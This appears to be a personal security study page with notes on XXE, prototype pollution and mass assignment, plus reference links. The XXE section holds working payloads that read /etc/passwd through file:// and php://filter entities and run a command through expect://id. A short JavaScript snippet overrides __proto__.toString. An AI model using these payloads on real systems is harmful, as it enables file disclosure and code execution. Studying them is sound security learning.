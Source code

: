 ## XXE:  
Entities declaration: this type of entity declaration is called internal declaration as everything is defined inside the same document and nothing needs to be fetched externally.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY name "James Jones">
]>
<student>&name;</student>
```

**External entities**:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY sname SYSTEM "https://www.prakharprasad.com/external.xml">
]>
<student>&sname;</student>
```  

**Simple XXE attack: reading files**.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ENTITY oops SYSTEM "file:///etc/passwd">
]>
<student>
	<name>&oops;</name>
</student>
```  

**Simple XXE attack: PHP Base64 conversion URI as an alternative**. (php://filter/convert.base64-encode/resource=/file/to/read)  
```
<!DOCTYPE student [
	<!ENTITY pwn SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<student>
	<name>&pwn;</name>
</student>
```  

**RCE thtough XXE**:  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
	<!ENTITY rce SYSTEM "expect://id">]>
<student>
	<name>&rce;</name>
</student>
```  

## Prototype Pollution:  
```
var book = {bookName: "Book name", authorName: "Author of book"};
console.log(book.toString())
//output: “[object Object]”

book.__proto__.toString = ()=>{alert("polluted")}
console.log(book.toString())
// alert box pops up: “polluted”

IMAGE: alert pops up with value “polluted”
```
**Additional resources**:  
https://www.mend.io/resources/blog/prototype-pollution-vulnerabilities/  
https://guidesmiths.github.io/cybersecurity-handbook/attacks_explained/prototype_pollution  
https://youtu.be/W9_x8pc_bh8  

## MASS ASSIGNMENT ATTACK:

**Additional information**:  
https://youtu.be/r1j0COUMTqw  

## ONLINE DECOMPILER:  
https://dogbolt.org  

## JavaScript:  

**Additional information**: 
1. HTTP Networking: https://www.freecodecamp.org/news/http-full-course/  
2. 

